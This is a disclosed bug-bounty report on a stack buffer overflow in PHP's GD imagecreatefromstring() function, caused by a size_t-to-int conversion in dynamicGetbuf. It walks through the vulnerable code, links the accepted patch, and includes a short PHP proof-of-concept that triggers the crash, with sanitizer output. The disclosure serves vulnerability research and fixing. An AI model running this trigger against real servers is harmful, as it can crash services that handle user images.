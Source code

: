 # Stack Buffer Overflow in GD dynamicGetbuf

## Report Details
- **Report ID**: 175587
- **URL**: https://hackerone.com/reports/175587
- **State**: Closed
- **Severity**: high
- **Submitted**: 2016-10-13T12:19:33.057Z
- **Disclosed**: 2019-11-12T09:26:14.063Z

## Reporter
- **Username**: libnex
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
#Stack-based buffer over flow in GD dynamicGetbuf#
- Vulnerable function: imagecreatefromstring()
- Bug has been reported: https://bugs.php.net/bug.php?id=73280
- Submitted a patch and accepted: https://github.com/php/php-src/commit/cc08cbc84d46933c1e9e0149633f1ed5d19e45e9
- Impact: Remotely Exploitable. Given the nature of the function, it is not uncommon to see programmers passing user inputs to the vulnerable function imagecreatefromstring(). Real life examples:
  * https://github.com/rbloone/sslv-scraper/blob/305c79e24421795abdae8106ad686cb9c6742e94/img.php
  * https://github.com/hick/utl/blob/a573f04ac0a6db2cfe56e2785dfab7b1534c04f3/pasteimage/file.php

Description:
------------
1) imagecreatefromstring() takes in a string and attempts to convert it into an image. The string is in the variable "data" and the length is stored as size_t (unsigned) within a zend_string structure as seen below. When passed into gdNewDynamicCtxEx(), it gets converted implicitly into an int (signed). If the MSB of the size_t is 1, when converting to an int, this becomes a negative number.

_php_image_create_from_string(...) at php-7.0.11/ext/gd/gd.c:2227
	
```c
2227                 io_ctx = gdNewDynamicCtxEx(Z_STRLEN_P(data), Z_STRVAL_P(data), 0);
```

2) Tracing the code deeper, the size is set to dp (dynamicPtr) below

allocDynamic(...) at ext/gd/libgd/gd_io_dp.c:272
```c
280                 dp->logicalSize = initialSize;
```



3) During the image conversion, dynamicGetchar() gets called to read 1 byte (line 257).

dynamicGetchar(..) at ext/gd/libgd/gd_io_dp.c
```c
	254             unsigned char b;
	255             int rv;
	256
	257             rv = dynamicGetbuf (ctx, &b, 1);
```


4) Tracing into dynamicGetbuf(), because "remain" (line 236) is negative due to the int conversion, line 243 gets executed and more than 1 byte will be memcpy (line 246). This memcpy would copy bytes to "bu"f which is 1-byte char on the stack. This results in a stack buffer over flow.

dynamicGetbuf (gdIOCtxPtr ctx, void *buf, int len) at ext/gd/libgd/gd_io_dp.c:237
```c
236             remain = dp->logicalSize - dp->pos;
237             if (remain >= len) {
238                     rlen = len;
239             } else {
240                     if (remain == 0) {
241                             return EOF;
242                     }
243                     rlen = remain;
244             }
245
246         memcpy(buf, (void *) ((char *) dp->data + dp->pos), rlen);
```


Test script:
---------------
```php
<?php
ini_set('memory_limit',-1);
$var_3  =  str_repeat("A",4294967286); //Note that although this is a large string, over HTTP gz compression, it's going to be less than 1kb
$var_3[0]="\x00";
$var_3[1]="\x00";
$var_3[2]="\x00";
$var_3[3]="\x00";
$var_3[4]="\x00";
$var_3[5]="\x00";
$var_3[6]="\x00";
$var_3[7]="\x00";
imagecreatefromstring($var_3);

?>
```

$> ./php-7.0.11 test.php
Segmentation fault

Address Sanitizer result
```
ERROR: AddressSanitizer: stack-buffer-overflow on address 0x7ffd246d5520 at pc 0x99119a bp 0x7ffd246d5480 sp 0x7ffd246d5478
WRITE of size 18446744073709551606 at 0x7ffd246d5520 thread T0
    #0 0x991199 in dynamicGetbuf /home/elaw/php-7.0.9/ext/gd/libgd/gd_io_dp.c:246
    #1 0x991263 in dynamicGetchar /home/elaw/php-7.0.9/ext/gd/libgd/gd_io_dp.c:257
    #2 0x98feaf in php_gd_gdGetC /home/elaw/php-7.0.9/ext/gd/libgd/gd_io.c:73
    #3 0x9a501c in php_gd_gd_getin /home/elaw/php-7.0.9/ext/gd/libgd/gd_wbmp.c:81
....
```

## Attachments
No attachments
